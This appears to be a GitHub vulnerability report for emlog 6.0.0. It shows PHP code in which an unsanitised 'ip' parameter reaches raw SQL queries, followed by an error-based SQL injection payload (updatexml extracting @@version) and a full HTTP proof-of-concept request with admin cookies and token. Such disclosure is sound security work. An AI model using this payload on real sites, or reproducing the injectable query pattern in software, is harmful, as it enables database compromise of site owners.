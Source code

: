 emlog has SQL injection vulnerability

vulnerability in admin/comment.php line 41:

```
if ($action== 'delbyip') {
    LoginAuth::checkToken();
    if (ROLE != ROLE_ADMIN) {
        emMsg('权限不足！', './');
    }
    $ip = isset($_GET['ip']) ? $_GET['ip'] : '';
    $Comment_Model->delCommentByIp($ip);
    $CACHE->updateCache(array('sta','comment'));
    emDirect("./comment.php?active_del=1");
}
```

vulnerability in include/lib/loginauth.php line 226:
```
public static function checkToken(){
    $token = isset($_REQUEST['token']) ? addslashes($_REQUEST['token']) : '';
    if ($token != self::genToken()) {
        emMsg('权限不足，token error');
    }
}
```
vulnerability in include/model/comment_model.php line 150:

```
function delCommentByIp($ip) {
        $blogids = array();
        $sql = "SELECT DISTINCT gid FROM ".DB_PREFIX."comment WHERE ip='$ip'";
        $query = $this->db->query($sql);
        while ($row = $this->db->fetch_array($query)) {
            $blogids[] = $row['gid'];
        }
        $this->db->query("DELETE FROM ".DB_PREFIX."comment WHERE ip='$ip'");
        $this->updateCommentNum($blogids);
    }
```

Login Required admin.
The token parameter constructed is the value of "EM_TOKENCOOKIE_..." in the cookie.
action=delbyip
ip=123' and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)%23

POC：
```
GET /admin/comment.php?action=delbyip&ip=123%27%20and%20updatexml(1,concat(0x7e,(SELECT%20@@version),0x7e),1)%23&token=665544d7a8c17d72576703859322548e HTTP/1.1
Host: 192.168.234.128
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=chk81h02l8rclkjbpdpm7ffjn3; EM_AUTHCOOKIE_ob0n96t5QV8HTVmXGtXUMPsWTSWNWSLZ=admin%7C%7Cae6c6d2833a616b48d91c52c029cb63e; EM_TOKENCOOKIE_ea9ab1c72af2adc42fabf01c92478f75=665544d7a8c17d72576703859322548e
Upgrade-Insecure-Requests: 1

```
![20191031153831](https://user-images.githubusercontent.com/32258440/67929561-92828800-fbf8-11e9-994d-5cd94372e4b4.jpg)

An issue was discovered in emlog 6.0.0
There is a SQL injection vulnerability that via /admin/comment.php?action=delbyip&ip=123' and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)%23&token=665544d7a8c17d72576703859322548e